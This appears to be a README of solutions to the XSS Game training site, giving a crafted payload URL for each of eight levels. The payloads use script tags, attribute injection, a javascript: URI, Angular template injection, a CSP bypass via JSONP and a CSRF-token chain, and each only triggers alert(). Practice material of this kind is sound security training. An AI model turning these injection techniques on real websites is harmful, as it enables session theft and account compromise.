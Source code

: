 # [XSS GAME](https://xssgame.com)


Level1 "Foogle":
https://www.xssgame.com/m4KKGHi2rVUN

https://www.xssgame.com/f/m4KKGHi2rVUN/?query=%3Cscript%3Ealert%28%29%3C%2Fscript%3E


Level2 "Time's out!" :
https://www.xssgame.com/WrfpuKFX8GNr

https://www.xssgame.com/f/WrfpuKFX8GNr/?timer=%27%2B%28alert%28%29%29%2B%27


Level3 "Gallery":
https://www.xssgame.com/u0hrDTsXmyVJ

https://www.xssgame.com/f/u0hrDTsXmyVJ/#'onerror='alert()'x='

Level4 "Google Reader ":
https://www.xssgame.com/__58a1wgqGgI

https://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()

Level5 "Angular":
https://www.xssgame.com/JFTG_t7t3N-P

https://www.xssgame.com/f/JFTG_t7t3N-P/?utm_term={{alert()}}

Level6 "Angular 2":
https://www.xssgame.com/rWKWwJGnAeyi

https://www.xssgame.com/f/rWKWwJGnAeyi/?%26%23123%3B%26%23123%3Balert()%7D%7D

Level7 "CSP":
https://www.xssgame.com/wmOM2q5NJnZS

https://www.xssgame.com/f/wmOM2q5NJnZS/?menu=PHNjcmlwdCBzcmM9J2pzb25wP21lbnU9JTVDJTIyfSksYWxlcnQoKS8vJz48L3NjcmlwdD4=
( https://www.xssgame.com/f/wmOM2q5NJnZS/?menu=<script src='jsonp?menu=%5C%22}),alert()//'></script> )

Level8 "CSRF":
https://www.xssgame.com/d9u16LTxchEi

https://www.xssgame.com/f/d9u16LTxchEi/set?value=terjanq&name=csrf_token&redirect=set%3Fname%3Dname%26value%3D%25253Ciframe%252520src%25253D'transfer%25253Fname%25253D%252526amount%25253D%25253Cscript%25253Ealert()%25253C%25252Fscript%25253E%252526csrf_token%25253Dterjanq'%25253E%25253C%25252Fiframe%25253E

